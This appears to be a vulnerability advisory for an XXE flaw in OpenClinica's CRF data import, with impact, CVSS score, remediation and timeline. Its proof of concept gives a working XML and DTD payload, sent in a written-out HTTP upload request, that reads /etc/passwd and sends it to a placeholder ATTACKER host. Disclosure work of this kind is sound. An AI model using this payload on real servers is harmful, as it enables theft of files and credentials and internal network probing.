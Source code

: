 # OpenClinica Import CRF Data – XXE file disclosure

A stored/interactive XML External Entity in OpenClinica’s **Import CRF Data** allows disclosure of OS files via error-based XXE.

---

## Product / Versions
- OpenClinica Community Edition  
  - **3.13** – Changeset `74f4df3481b6` (2017-02-28)  
  - **3.12.2** – Changeset `347dcfca3d17` (2016-11-21)

## Affected area
`Tasks → Import CRF Data` (multipart upload parameter: `xml_file`)

## Auth
Authenticated (tested as **Data Manager**; also reproducible with any role allowed to import CRFs)

## Summary
The XML parser behind the Import CRF Data workflow processes external entities. By submitting a crafted XML that references a local file via an external DTD, file contents (e.g. `/etc/passwd`) are reflected back in the **Alerts & Messages** pane. This confirms **XXE** with local file read and possible SSRF.

## PoC
Upload a tiny XML that pulls an external DTD which exfiltrates a local file via an error string.

**evil.xml**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE xxe SYSTEM "http://ATTACKER/malicious.dtd">
<xxe>test</xxe>
```

**malicious.dtd**
```dtd
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % all "<!ENTITY xxe SYSTEM 'http://ATTACKER/leak?d=%file;'>">
%all;
```

Or, embed a parameter entity directly if outbound HTTP is blocked and rely on error echo.

## Raw request (abridged)
```
POST /OpenClinica/ImportCRFData?action=confirm HTTP/1.1
Host: <target>:8080
Content-Type: multipart/form-data; boundary=----X

------X
Content-Disposition: form-data; name="xml_file"; filename="evil.xml"
Content-Type: application/xml

<?xml version="1.0"?>
<!DOCTYPE xxe SYSTEM "http://ATTACKER/malicious.dtd">
<xxe>test</xxe>
------X--
```

**Observed result**  
Lines from `/etc/passwd` and other file content appear in the error block of the page (screenshots attached in the evidence bundle).

## Impact
- Read arbitrary local files as the application user (secrets, config, keys).
- Potential **SSRF** by pointing entities at internal HTTP services.

## Severity (suggested)
**CVSS v3.1:** `AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N` → **7.1 High**  
**CWE:** 611 (XXE)

## Remediation
- Disable DTD and external entity resolution on all XML parsers used here:
  - `disallow-doctype-decl=true`
  - `external-general-entities=false`
  - `external-parameter-entities=false`
  - `FEATURE_SECURE_PROCESSING=true`
- Validate uploaded XML against a strict schema server-side.
- Minimise file permissions of the OpenClinica/Tomcat user.

## Timeline
- **2025-10-09 → 2025-10-23**: Discovered and reproduced on 3.12.2 and 3.13 test images.  
- Evidence: XML payload + UI screenshots included.
